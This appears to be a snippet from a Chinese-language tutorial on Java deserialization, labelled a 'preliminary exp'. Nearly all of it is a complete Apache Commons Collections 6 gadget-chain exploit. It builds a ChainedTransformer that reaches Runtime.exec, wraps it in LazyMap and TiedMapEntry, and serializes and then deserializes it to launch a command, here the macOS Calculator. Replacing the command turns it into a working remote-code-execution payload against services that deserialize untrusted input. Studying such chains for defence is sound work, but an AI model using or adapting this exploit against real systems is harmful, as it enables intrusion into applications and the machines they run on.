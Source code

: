 

**初步的exp：**

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC62 {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, ClassNotFoundException, IOException {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);

        //
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "keykey");
//        tiedMapEntry.getKey();
        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valval");

        serialize(expMap);
        unserialize("ser.bin");


    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```
